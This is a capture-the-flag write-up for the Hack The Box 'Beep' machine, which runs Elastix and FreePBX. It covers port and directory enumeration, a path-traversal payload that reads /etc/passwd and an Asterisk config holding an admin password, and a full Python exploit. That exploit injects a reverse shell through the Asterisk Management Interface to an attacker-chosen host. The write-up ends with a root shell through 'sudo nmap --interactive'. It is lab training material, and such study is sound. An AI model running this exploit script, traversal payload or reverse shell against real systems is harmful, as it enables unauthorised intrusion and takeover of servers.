









# [Beep](https://app.hackthebox.eu/machines/5)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.7 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.7 # quick scan
```



There are quite a few ports open. A few of them have to do with email services:

- 25 SMTP (https://book.hacktricks.xyz/pentesting/pentesting-smtp)
- 110/995 POP3 (https://book.hacktricks.xyz/pentesting/pentesting-pop)
- 143/993 IMAP (https://book.hacktricks.xyz/pentesting/pentesting-imap)

To enumerate the website, run the following in the background:

- Using `gobuster` because the outdated SSL cert gives errors with `dirb` ...

```bash
sudo apt install gobuster
gobuster dir -k -e -r -w /usr/share/dirb/wordlists/common.txt -u https://10.10.10.7
nikto -h http://10.10.10.7 -nossl --maxtime=30s
```

Looking at the webpage shows the following:


A Google search says the following about Elastix:

> Elastix is an unified communications server software that brings  together IP PBX, email, IM, faxing and collaboration functionality. It  has a Web interface and includes capabilities such as a call center  software with predictive dialing.

A trying some default logins does not give any easy wins:

- `admin/admin`
- `admin/password`

`nikto` does not have any helpful output but `gobuster` has some interesting directories:



Trying `/admin` asks for a username/password and there are no easy wins here as well... But after denying the password prompt, the following page is displayed:


Now that there is a version tied to a service, looking for an exploit is a good next step:


Now that we know what version of FreePBX is running, it is likely that we have a version of Elastix that is <= 2.2.0 since FreePBX v2.10.0 is tied to Elastix 2.2.0. This means that exploit 38091 is a possible option. Looking at the exploit shows that it is trying to send a request to `/vtigercrm/phprint.php`:

```bash
searchsploit -m 38091
cat 38091.php | grep php 
```

Verifying this URI exists shows that it is valid:

```bash
wget --no-check-certificate https://10.10.10.7/vtigercrm/phprint.php
cat phprint.php
```


Trying this exploit does not work well though... However, browsing to `/vtigercrm` shows the following page:


This new page gives another service and version to look for an exploit for:



Exploit 18770 looks promising! The exploit says to try and browse to the following URL:

- https://www.exploit-db.com/exploits/18770

```bash
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

 Trying this with the target IP of 10.10.10.7 shows the following:



It looks like there is a local user of `fanis`! With this access, looking for service configuration files with passwords is the next step. The file at `/etc/asterisk/manager.conf` should give the admin password:

- https://www.telecomworld101.com/PiaF/manager.conf.html



Now trying to login to Elastix with `admin` and `jEhdIekWmdjE` shows a valid admin dashboard:



After some manual enumeration of the website, the following version info is found:



Now that the version of Elastix is known, exploit 18650 seems more likely to work now. Copying that exploit over and inspecting it shows it as a GET request to a URI with a parameter that gets passed to the Asterisk Management Interface socket directly. 

- https://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/

```bash
searchsploit -m 18650
cat 18650.py | grep http
```

This exploit requires a a valid `extension` value which can be found in the Elastix admin interface at `https://10.10.10.7/index.php?menu=control_panel` for the user `fanis`:


With all this information, the exploit should work. Before executing it, the exploit code can be cleaned up to be more clear:

```python
import sys
import ssl
import urllib.parse
import urllib.request

if len(sys.argv) != 5:
  print(f'usage: python3 {sys.argv[0]} <rhost> <lhost> <lport> <extension>')
  exit(-1)

URL = f'https://{sys.argv[1]}/recordings/misc/callme_page.php?action=c&callmenum={sys.argv[4]}'
# using a python reverse shell instead of the original perl one
CMD = f'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{sys.argv[2]}",{sys.argv[3]}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
PAYLOAD_RAW = f'@from-internal/n\r\nApplication: system\r\nData: {CMD}\r\n\r\n'

print(f'[*] target is {URL}')
print(f'[*] encoded payload is "{urllib.parse.quote(PAYLOAD_RAW)}"')
# fix annoying errors due to site using TLS v1.0 ...
ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
with urllib.request.urlopen(URL + urllib.parse.quote(PAYLOAD_RAW), context=ctx) as r:
  print('[+] RESPONSE:')
  print(r.read().decode())

print('[+] DONE')
```

Executing this gives the reverse shell:




For privilege escalation, enumerating user permissions shows interesting values:


`nmap` is a known GTFO binary! Getting `root` is done by running `nmap` interactively:

- https://gtfobins.github.io/gtfobins/nmap/

```bash
sudo nmap --interactive
!sh # run at the interactive nmap prompt
python -c "import pty;pty.spawn('/bin/bash')" # get a TTY shell
```



